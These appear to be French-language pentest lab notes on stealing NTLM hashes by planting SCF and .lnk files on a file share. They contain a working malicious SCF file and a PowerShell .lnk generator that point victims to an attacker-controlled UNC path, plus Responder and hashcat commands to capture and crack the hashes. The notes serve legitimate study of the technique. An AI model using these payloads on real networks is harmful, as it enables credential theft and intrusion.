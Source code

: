 # SCF on a File Share

### <mark style="color:red;">SCF on a File Share</mark>

{% hint style="warning" %}
Un fichier **SCF** (Shell Command File) sert normalement à des fonctions Windows simples (comme afficher le Bureau).

* Ce fichier contient une instruction qui peut indiquer où trouver son icône (`IconFile`).
* Si l’attaquant modifie cette ligne pour pointer vers un **chemin UNC** (ex. `\\monserveur\partage`) qu’il contrôle, alors :
  1. **Windows Explorer** va automatiquement essayer de se connecter à ce serveur pour récupérer l’icône.
  2. Cette connexion passe par **SMB** (protocole réseau Windows).
  3. Lors de cette tentative, Windows envoie automatiquement le **hash NTLM** du mot de passe de l’utilisateur connecté.
* L’attaquant, avec un outil comme **Responder** ou **Inveigh**, intercepte ce hash.
* Il peut ensuite essayer de le **craquer** pour obtenir le mot de passe en clair.
* Avec ce mot de passe, il peut **élever ses privilèges** ou accéder à d’autres systèmes.

En gros :\
C’est comme laisser traîner un raccourci piégé dans un dossier que tout le monde visite. Dès que quelqu’un ouvre ce dossier, son PC envoie par erreur son mot de passe (sous forme de hash) à l’attaquant.
{% endhint %}

#### <mark style="color:green;">Exemple de fichier SCF malveillant</mark>

**@Inventory.scf**

{% hint style="warning" %}
Nous mettons un **@** au début du nom du fichier pour qu'il apparaisse en haut du répertoire et soit vu et exécuté par l'Explorateur Windows dès que l'utilisateur accède au partage.&#x20;
{% endhint %}

```shell-session
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

<mark style="color:green;">**Starting Responder**</mark>

```shell-session
mrroboteLiot_1@htb[/htb]$ sudo responder -wrf -v -I tun0
```

<mark style="color:green;">**Cracking NTLMv2 Hash with Hashcat**</mark>

```shell-session
mrroboteLiot_1@htb[/htb]$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```

***

### <mark style="color:red;">Capturing Hashes with a Malicious .lnk File</mark>

Using SCFs no longer works on Server 2019 hosts

[.lnk](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943)

[Lnkbomb](https://github.com/dievus/lnkbomb)

<mark style="color:green;">**Generating a Malicious .lnk File**</mark>

```powershell-session

$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```
